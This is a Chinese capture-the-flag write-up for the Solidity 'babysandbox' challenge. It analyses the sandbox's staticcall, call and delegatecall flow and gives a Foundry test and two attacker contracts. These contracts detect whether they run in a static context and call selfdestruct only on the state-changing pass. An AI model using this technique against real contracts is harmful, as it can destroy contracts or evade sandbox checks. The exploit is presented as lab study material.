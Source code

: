 # babysandbox

## 分析

### 1.全局观

- Setup：初始化题目
- BabySandbox：只有一个run方法

### 2.任务

使sandbox合约的代码长度为0，即销毁sandbox合约

```solidity
    function isSolved() public view returns (bool) {
        uint size;
        assembly {
            size := extcodesize(sload(sandbox.slot))
        }
        return size == 0;
    }
```

### 3.详细分析

做本题需要了解的操作码：

```
call(): msg.sender
address(): address(this), address of the executing contract
delegatecall(g, a, in, insize, out, outsize):
	| gas | addr | argsOffset | argsLength | retOffset | retLength | ==> | success |
gas(): gas still available to execution
returndatacopy(t, f, s): copy s bytes from returndata at position f to mem at position t
returndatasize(): size of the last returndata
calldatacopy(t, f, s)：从位置f的calldata复制s字节到位置t的内存中，把输入数据加载到Memory中
calldatasize(): size of call data in bytes
staticcall(g, a, in, insize, out, outsize): 
	identical to `call(g, a, 0, in, insize, out, outsize)` but do not allow state modifications
	| gas | addr | argsOffset | argsLength | retOffset | retLength | ==> | success |
call(g, a, v, in, insize, out, outsize):
	| gas | addr | value | argsOffset | argsLength | retOffset | retLength | ==> | success |
```

让我们来用外部合约来调用一次`run()`：

1. `if eq(caller(), address())`不会进入，因为调用者不是此合约
2. `if lt(gas(), 0xf000)`，当然有足够的gas
3. `calldatacopy(0x00, 0x00, calldatasize())`：从位置0x00的calldata复制`calldatasize()`字节到位置0x00的内存中，也就是将所有的calldata放到内存0x00的位置
4. `if iszero(staticcall(0x4000, address(), 0, calldatasize(), 0, 0))`：如果成功调用，`staticcall()`返回true即1，不会被revert，反之如果修改了状态则返回0被revert
   - 0x4000：此次staticcall最多消耗0x4000gas
   - `address()`, `0`, `calldatasize()`: 执行此合约的`run()`，因为从0位置开始读取`calldatasize()`的内容就是`run()`
   - `0`, `0`: 不需要返回值。
5. 再次重入执行此合约的`run()`
   1. `if eq(caller(), address())`：判断成功，进入
   2. `switch delegatecall(gas(), code, 0x00, 0x00, 0x00, 0x00)`：调用我们输入的地址`code`，要求：不得修改此合约状态(否则staticcall失败)，并且成功调用（否则switch选择0失败）。由于后面全是0x00，那么就是进入到地址`code`的`fallabck()`
   3. `return(0x00, returndatasize())`：此次重入`run()`执行完毕
6. `switch call(0x4000, address(), 0, 0, calldatasize(), 0, 0)`：再次重入此合约的run()，但可以修改状态了
   1. `if eq(caller(), address())`：为true
   2. `switch delegatecall(gas(), code, 0x00, 0x00, 0x00, 0x00)`：调用我们输入的地址`code`，要求：成功调用
   3. 那么此时我们就可以执行地址`code`中的代码逻辑，如果fallback中含有`selfdestruct()`，则完成题目。

看完这个流程，其实就是将Ethernaut的[电梯那关](https://www.levi104.com/2023/06/23/04.Ethernaut%20CTF/11.Elevator/)用内联汇编出题，原理是一样的。

## 解题

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.7.0;
pragma experimental ABIEncoderV2; // https://github.com/foundry-rs/foundry/issues/4376

import "forge-std/Test.sol";
import "../../src/05.babysandbox/Setup.sol";
import "./attacker01.sol";
import "./attacker02.sol";

contract attackTest is Test {
    Setup public level;
    BabySandbox babySandbox;

    function setUp() public {
        // 初始化题目
        level = new Setup();
        babySandbox = level.sandbox();

        // 因为foundry只有在一次调用结束的时候，才会更新账户的代码长度信息,网址：
        // https://github.com/foundry-rs/foundry/issues/1543
        // 因此我们借助在setup中调用，然后在test_isComplete()中就可以检测到是否完成

        // 解法1
        attacker01 hack = new attacker01();
        vm.label(address(hack), "attacker01");
        babySandbox.run(address(hack));
        //解法2
        // attacker02 hack = new attacker02();
        // vm.label(address(hack), "attacker02");
        // babySandbox.run(address(hack));
    }

    function test_isComplete() public{
        assertEq(level.isSolved(), true);
    }

}
```

解法1

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.7.0;

contract attacker01 {
    // immutable会在合约初始化的时候完成赋值
    attacker01 public immutable self = this;
    uint256 public isStateChange = 1;

    function changeState() external {
        // 在这里面不能做太多操作，因为BabySandbox做了gas的限制
        isStateChange = 0;
    }    

    fallback() external payable {
        // 第一次staticcall + delegatecall: 修改了状态，报错，但是会catch住，程序不会停止，而是往下走
        // 第二次call + delegatecall: 正常执行
        try self.changeState() { 
            selfdestruct(msg.sender); 
        } catch {} 
    }
    // 不能有receive()，否则不会走fallback()

}
```

解法2

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity 0.7.0;

contract attacker02 {
    // immutable会在合约初始化的时候完成赋值
    address immutable exploit;

    constructor() {
        exploit = address(this);
    }

    event Ping();
    function stateChangingAction() external {
        emit Ping();
    }

    fallback() external {
        (bool success, ) = exploit.call(abi.encodeWithSelector(this.stateChangingAction.selector));
        if (success) {
            selfdestruct(payable(address(0x0)));
        }
    }
    // 不能有receive()，否则不会走fallback()

}
```

